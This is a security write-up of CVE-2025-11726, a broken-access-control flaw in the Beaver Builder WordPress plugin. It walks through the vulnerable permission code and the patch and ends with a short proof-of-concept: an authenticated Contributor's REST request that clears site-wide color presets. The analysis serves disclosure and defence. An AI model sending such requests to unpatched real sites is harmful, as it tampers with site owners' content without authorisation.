


# CVE-2025-11726 Analysis & POC


<!--more-->

## CVE & Basic Info

The **Beaver Builder – WordPress Page Builder** plugin for WordPress contains a **Missing Authorization** vulnerability in all versions up to and including **2.9.4**. The root cause is insufficient **capability checks** in the **REST API endpoints** under the namespace **`fl-controls/v1`**, which manage **Global Presets** across the entire website. This allows **authenticated attackers** with at least **Contributor** privileges to **add, modify, or delete** **global color presets** and **background presets**, affecting all content built with **Beaver Builder** site-wide.

* **CVE ID**: [CVE-2025-11726](https://www.cve.org/CVERecord?id=CVE-2025-11726)
* **Vulnerability Type**: Broken Access Control
* **Affected Versions**: <= 2.9.4
* **Patched Versions**: 2.9.4.1
* **CVSS severity**: Low (5.4)
* **Required Privilege**: Contributor
* **Product**: [WordPress Beaver Builder Plugin](https://wordpress.org/plugins/beaver-builder-lite-version/)

## Requirements

* **Local WordPress & Debugging**

  * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
  * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** - **Beaver Builder**:

  * `2.9.4` – **vulnerable**
  * `2.9.4.1` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) or any diff tool.

## Analysis

**In the vulnerable version (v2.9.4):**

```php {title="class-fl-controls.php v2.9.4" data-open=true hl_lines=[4,10,16]}
static public function register_rest_endpoints() {
    ...
    register_rest_route( 'fl-controls/v1', '/color_presets/', array(
        'methods'             => WP_REST_Server::CREATABLE,
        'callback'            => __CLASS__ . '::set_color_presets',
        'permission_callback' => __CLASS__ . '::check_permission',
    ) );

    register_rest_route( 'fl-controls/v1', '/color_presets/', array(
        'methods'             => WP_REST_Server::DELETABLE,
        'callback'            => __CLASS__ . '::delete_color_presets',
        'permission_callback' => __CLASS__ . '::check_permission',
    ) );

    register_rest_route( 'fl-controls/v1', '/background_presets/', array(
        'methods'             => WP_REST_Server::CREATABLE,
        'callback'            => __CLASS__ . '::set_background_presets',
        'permission_callback' => __CLASS__ . '::check_permission',
    ) );
    ...
}
```

The plugin registers **REST API endpoints** under the namespace **`fl-controls/v1`**, which can **add, modify, or delete** **global color presets** and **background presets**.

These APIs control access via the callback `check_permission`:

```php {title="class-fl-controls.php v2.9.4" data-open=true hl_lines=[]}
static public function check_permission() {
    return FLBuilderUserAccess::current_user_can( 'builder_access' );
}
```

The plugin customizes a `current_user_can` function and checks the `builder_access` permission:

```php {title="class-fl-controls.php v2.9.4" data-open=true hl_lines=[3]}
public static function register_default_settings() {
    self::register_setting( 'builder_access', array(
        'default'     => 'all',
        'group'       => __( 'Frontend', 'fl-builder' ),
        'label'       => __( 'Builder Access', 'fl-builder' ),
        'description' => __( 'The selected roles will have access to the builder for editing posts, pages, and CPTs.', 'fl-builder' ),
        'order'       => '1',
    ) );

    self::register_setting( 'unrestricted_editing', array(
        'default'     => 'all',
        'group'       => __( 'Frontend', 'fl-builder' ),
        'label'       => __( 'Unrestricted Editing', 'fl-builder' ),
        'description' => __( 'The selected roles will have unrestricted access to all editing features within the builder.', 'fl-builder' ),
        'order'       => '2',
    ) );
}
```

`builder_access` is registered with `'default' => 'all'`, meaning it applies to all users.

> [!QUESTION]
> If `builder_access` applies to all users, why is the vulnerability reported for Contributor privileges?

The answer lies in the logic of the plugin's `current_user_can` function:

```php {title="class-fl-builder-user-access.php v2.9.4" data-open=true hl_lines=[3]}
static public function current_user_can( $key ) {
    $user     = wp_get_current_user();
    $settings = self::get_saved_settings();

    // Return false if no settings saved.
    if ( ! isset( $settings[ $key ] ) ) {
        return false;
    }

    // Make sure super admins have administrator access.
    if ( is_multisite() && is_super_admin() && ! in_array( 'administrator', $user->roles ) ) {
        $user->roles[] = 'administrator';
    }

    // Check the user's roles against the saved settings.
    foreach ( $user->roles as $role ) {

        // Return true if the user has access.
        if ( isset( $settings[ $key ][ $role ] ) && $settings[ $key ][ $role ] ) {
            return true;
        }
    }

    return false;
}
```

`current_user_can` checks permissions based on **role + plugin settings**, not WordPress's standard capabilities. It calls `self::get_saved_settings()` to fetch settings:

```php {title="class-fl-builder-user-access.php v2.9.4" data-open=true hl_lines=[6]}
static public function get_saved_settings() {
    if ( self::$settings ) {
        return self::$settings;
    }

    $roles       = self::get_all_roles();
    $settings    = FLBuilderModel::get_admin_settings_option( '_fl_builder_user_access', true );
    $ms_settings = FLBuilderModel::get_admin_settings_option( '_fl_builder_user_access', false );
    $ms_support  = FLBuilderAdminSettings::multisite_support();

    if ( ! is_array( $settings ) ) {
        $settings = array();
    }

    foreach ( self::$registered_settings as $key => $data ) {

        if ( ! isset( $settings[ $key ] ) ) {
            if ( $ms_support && isset( $ms_settings[ $key ] ) ) {
                $settings[ $key ] = $ms_settings[ $key ];
            } else {
                $settings[ $key ] = array();
            }
        }

        foreach ( $roles as $role_key => $role_data ) {

            if ( ! isset( $settings[ $key ][ $role_key ] ) ) {

                if ( ! isset( $data['default'] ) || ! $data['default'] ) {
                    $settings[ $key ][ $role_key ] = false;
                } elseif ( is_array( $data['default'] ) ) {

                    if ( in_array( $role_key, $data['default'] ) ) {
                        $settings[ $key ][ $role_key ] = true;
                    } else {
                        $settings[ $key ][ $role_key ] = false;
                    }
                } else {
                    $settings[ $key ][ $role_key ] = true;
                }
            }
        }
    }

    self::$settings = $settings;

    return $settings;
}
```

`get_saved_settings` normalizes the role-based permission settings from the `_fl_builder_user_access` option, applying defaults for each `$key` and `role`, and caches them in `self::$settings`. Roles are retrieved via `self::get_all_roles()`:

```php {title="class-fl-builder-user-access.php v2.9.4" data-open=true hl_lines=[6]}
static public function get_all_roles() {
    if ( ! function_exists( 'get_editable_roles' ) ) {
        require_once ABSPATH . 'wp-admin/includes/user.php';
    }

    $editable_roles = get_editable_roles();
    $roles          = array();
    $caps           = apply_filters( 'fl_builder_user_access_capabilities', array( 'edit_posts' ) );

    foreach ( $editable_roles as $role => $data ) {
        foreach ( $caps as $cap ) {
            if ( isset( $data['capabilities'][ $cap ] ) && 1 == $data['capabilities'][ $cap ] ) {
                $roles[ $role ] = $data['name'];
            }
        }
    }

    return $roles;
}
```

`get_all_roles()` returns a list of **roles with a specific capability**, defaulting to `edit_posts` — effectively including all roles **from Contributor and above**. ==This is the explanation==.

**Patch (v2.9.4.1):**

`check_permission` is replaced with `check_write_permission`:



It requires **both** internal plugin permissions: `unrestricted_editing` and `builder_access`:

```php {title="class-fl-controls.php v2.9.4.1" data-open=true hl_lines=[]}
static public function check_write_permission() {
    return ( FLBuilderUserAccess::current_user_can( 'unrestricted_editing' ) && FLBuilderUserAccess::current_user_can( 'builder_access' ) );
}
```

These permissions are revised to apply only to `administrator` and `editor`.



---

**Corresponding endpoint callbacks:**

```php {title="POST fl-controls/v1/color_presets/"}
static public function set_color_presets( $request ) {
    $color_presets = (array) get_option( '_fl_builder_color_presets', [] );
    $params        = $request->get_params();

    if ( isset( $params['clearPresets'] ) && true === $params['clearPresets'] ) {
        if ( update_option( '_fl_builder_color_presets', [] ) ) {
            return new WP_REST_Response( [
                'presets' => [],
            ], 200 );
        }
    }

    // Dedupe the merged arrays
    $new_presets = array_unique( array_merge( $color_presets, $params['addPresets'] ) );

    update_option( '_fl_builder_color_presets', $new_presets );

    return new WP_REST_Response( [
        'presets' => $new_presets,
    ], 200 );
}
```

```php {title="DELETE fl-controls/v1/color_presets/"}
static public function delete_color_presets( $request ) {
    $color_presets = (array) get_option( '_fl_builder_color_presets', [] );
    $params        = $request->get_params();

    $new_presets = array_values( array_filter( $color_presets, function ( $color ) use ( $params ) {

        // Check for exact match and value w/ # prepended
        return ! in_array( $color, $params['deletePresets'] ) && ! in_array( '#' . $color, $params['deletePresets'] );
    } ) );

    if ( update_option( '_fl_builder_color_presets', $new_presets ) ) {
        $color_presets = $new_presets;
    }

    return new WP_REST_Response( [
        'presets' => $color_presets,
    ], 200 );
}
```

```php {title="POST fl-controls/v1/background_presets/"}
static public function set_background_presets( $request ) {
    $presets     = (array) get_option( '_fl_builder_color_presets', [] );
    $params      = $request->get_params();
    $new_presets = array_merge( $presets, $params['addPresets'] );

    if ( update_option( '_fl_builder_background_presets', $new_presets ) ) {
        $presets = $new_presets;
    }

    return new WP_REST_Response( [
        'presets' => $presets,
    ], 200 );
}
```

## Flow


graph TD
A["Authenticated user (Contributor or higher)"]
--> B["Sends request to /wp-json/fl-controls/v1/*"]
--> C["REST API calls permission_callback = check_permission()"]
--> D["check_permission() → current_user_can('builder_access')"]
--> G["builder_access = true for Contributor"]
--> H["Request is accepted"]
--> I["set_color_presets / delete_color_presets / set_background_presets"]
--> J["Global Presets are added / modified / deleted site-wide"]


## Proof of Concept (PoC)

1. Login with a Contributor account.
2. Obtain nonce by pasting the following in the browser console:

```js
wpApiSettings.nonce
```

3. Add the X-WP-Nonce header and send the request:

```http
POST /wp-json/fl-controls/v1/color_presets/ HTTP/1.1
Cookie: contributor_cookie
X-WP-Nonce: 0db9546893

{
  "clearPresets": true
}
```

Repeat similarly for the other endpoints.

## Conclusion

CVE-2025-11726 is a **Broken Access Control** issue caused by the plugin only checking the internal `builder_access` permission — which by default applies to roles with `edit_posts` (i.e., **Contributor and above**). Therefore, merely logging in allows an attacker to **add, modify, or delete Global Presets** via the `fl-controls/v1` REST API, affecting all Beaver Builder content site-wide.

The patch in **v2.9.4.1** fixes this by replacing `check_permission` with `check_write_permission`, requiring **both** `builder_access` and `unrestricted_editing`, and limiting it to **Editor and Administrator** roles.

## Key Takeaways

* Authentication ≠ Authorization
* Avoid using **default = all** for sensitive permissions
* Custom permissions should map correctly to **WordPress core capabilities**
* Endpoints that modify **global settings** must require high privileges (Admin/Editor)
* Comparing (diff) vulnerable vs patched versions is a quick way to spot permission logic errors
* Multiple layers of permission checks are needed for critical actions

## References

[Broken Access Control](https://patchstack.com/academy/wordpress/vulnerabilities/broken-access-control/)

[WordPress Beaver Builder Plugin <= 2.9.4 is vulnerable to Broken Access Control](https://patchstack.com/database/wordpress/plugin/beaver-builder-lite-version/vulnerability/wordpress-beaver-builder-wordpress-page-builder-plugin-2-9-4-missing-authorization-to-authenticated-contributor-global-preset-modification-vulnerability)


---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-12-07-cve-2025-11726/  

